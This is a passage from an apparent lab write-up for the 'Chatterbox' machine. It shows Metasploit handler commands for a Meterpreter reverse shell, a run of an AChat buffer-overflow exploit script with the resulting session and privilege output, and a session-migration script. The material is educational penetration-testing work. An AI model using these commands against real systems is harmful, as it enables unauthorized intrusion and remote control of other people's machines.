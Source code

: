 2. Start msf listener

```console
└─╼$ msfconsole -q -x "use multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 10.10.16.24; set lport 1234; set exitfunc thread; exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
lhost => 10.10.16.24
lport => 1234
[*] Started reverse TCP handler on 10.10.16.24:1234
[*] Sending stage (175686 bytes) to 10.129.22.71
[*] Meterpreter session 1 opened (10.10.16.24:1234 -> 10.129.22.71:49160) at 2024-02-21 13:44:31 +0800
```

3. Trigger buf overflow and receive shell on msf handler

```console
└─╼$ python2 AChat_Exploit.py
[+] BUFFER OVERFLOW PAYLOAD RELEASED -- CHECK YOUR HANDLER
---------------------------------------------------------------------------------
meterpreter > getuid
Server username: CHATTERBOX\Alfred
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

### Msf Session Migrate

AChat session dies after exploiting: migrate shell into another process

![image-20240311185227279](./Chatterbox.assets/image-20240311185227279.png)

```console
└─╼$ cat ~/pwk/tools/automigrate.rc 
run post/windows/manage/migrate
getuid
getprivs
--------------------------------------------------------------------------------
└─╼$ msfconsole -q -x "use multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 10.10.16.24; set lport 1234; set AutoRunScript multi_console_command -r ~/pwk/tools/automigrate.rc; exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
lhost => 10.10.16.24
lport => 1234
AutoRunScript => multi_console_command -rc ~/pwk/tools/automigrate.rc
```